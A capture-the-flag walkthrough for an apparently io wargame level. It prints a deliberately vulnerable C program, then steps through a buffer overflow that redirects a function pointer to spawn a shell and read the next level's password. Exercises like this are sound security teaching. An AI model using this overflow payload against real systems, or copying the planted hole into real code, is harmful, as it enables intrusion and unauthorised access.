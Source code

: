 Start out by looking at the source code in level03.c
```
//bla, based on work by beach
 
#include <stdio.h>
#include <string.h>
 
void good()
{
    puts("Win.");
    execl("/bin/sh", "sh", NULL);
}
void bad()
{
    printf("I'm so sorry, you're at %p and you want to be at %p\n", bad,     good);
}
 
int main(int argc, char **argv, char **envp)
{
    void (*functionpointer)(void) = bad;
    char buffer[50];

    if(argc != 2 || strlen(argv[1]) < 4)
        return 0;

    memcpy(buffer, argv[1], strlen(argv[1]));
    memset(buffer, 0, strlen(argv[1]) - 4);

    printf("This is exciting we're going to %p\n", functionpointer);
    functionpointer();

    return 0;
}
```

At first glance, we see two functions: good() and bad(). We see they're kind enough to tell us the address of good(), and it seems like we need redirect execution to go there. We need to supply at least one command line argument that's longer than four characters, then it gets mem copied in its entirety into a fixed size buffer of 50 bytes. We need to supply a string long enough to overwrite the return address at the end of the function. To make it easy we can use python to print out a string and figure out how many bytes we need.
```
level3@io:/levels$ ./level03 $(python -c 'print "A"*100')
This is exciting we're going to (nil)
Segmentation fault
```
Oops, that's too long. Let's try to shorten it a bit.
```
level3@io:/levels$ ./level03 $(python -c 'print "A"*80')
This is exciting we're going to 0x41414141
Segmentation fault
```
Perfect, looks like 80 bytes is enough overwrite the return address. Let's try to shorten it a bit and see exactly where we overwrite it.
```
level3@io:/levels$ ./level03 $(python -c 'print "A"*76')
This is exciting we're going to 0x80484a4
I'm so sorry, you're at 0x80484a4 and you want to be at 0x8048474
```
Looks like the magic number was 80 bytes! Let's double check to make sure we're right.
```
level3@io:/levels$ ./level03 $(python -c 'print "A"*76 + "BBBB"')
This is exciting we're going to 0x42424242
Segmentation fault
```

Now that we know how many bytes we need, we need to replace the Bs with the four bytes of the address for the function good() we can return into it. The address is 0x8048474. Because x86 architecture is little endian, we need to reverse the bytes in the memory address in order to actually jump to 0x8048474.
```
level3@io:/levels$ ./level03 $(python -c 'print "A"*76 + "\x74\x84\x04\x08"')
This is exciting we're going to 0x8048474
Win.
sh-4.2$ cat /home/level4/.pass
[The password for level4]
```
